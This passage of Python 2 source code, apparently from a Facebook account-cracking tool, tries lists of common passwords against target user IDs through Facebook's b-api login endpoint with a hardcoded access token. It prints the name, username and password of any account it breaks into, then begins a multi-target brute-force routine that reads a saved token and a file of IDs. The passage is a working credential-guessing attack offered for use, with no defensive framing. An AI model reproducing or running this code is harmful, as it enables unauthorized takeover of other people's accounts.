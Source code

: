 													print "\033[1;91m[+] \033[1;92mFound"
													print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
													print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
													print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
													raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
													menu_hack()
												else:
													if 'www.facebook.com' in y["error_msg"]:
														print "\033[1;91m[+] \033[1;92mFound"
														print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
														print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
														print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
														print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
														raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
														menu_hack()
													else:
														pz7 = "sayang123, sayang, bintang, bajingan, someone, anjing, pukimak, playboy, doraemon, bahagia"
														data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
														y = json.load(data)
														if 'access_token' in y:
															print "\033[1;91m[+] \033[1;92mFound"
															print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
															print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
															print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz7
															raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
															menu_hack()
														else:
															if 'www.facebook.com' in y["error_msg"]:
																print "\033[1;91m[+] \033[1;92mFound"
																print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
																print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
																print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
																print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
															else:
																print "\033[1;91m[!] Sorry, exit to open the target password :("
																print "\033[1;91m[!] try it another way."
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
	except KeyError:
		print "\033[1;91m[!] Terget not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()


##### Multi Brute Force #####
##### CRACK ####
def crack():
	global idlist,passw,file
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	idlist = raw_input('\033[1;91m[+] \033[1;92mFile ID  \033[1;91m: \033[1;97m')
	passw = raw_input('\033[1;91m[+] \033[1;92mPassword \033[1;91m: \033[1;97m')